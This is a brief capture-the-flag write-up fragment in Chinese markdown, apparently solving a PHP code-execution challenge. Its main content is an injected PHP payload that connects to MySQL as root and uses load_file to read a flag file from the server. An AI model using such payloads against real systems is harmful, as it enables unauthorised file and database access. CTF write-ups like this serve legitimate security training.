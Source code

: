 # 知识点
# 思路
```php
c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root',
'root');foreach($dbh->query('select load_file("/flag36d.txt")') as $row)
{echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
>getMessage();exit(0);}exit(0);
```
![image.png](./images/20231017_2351096508.png)
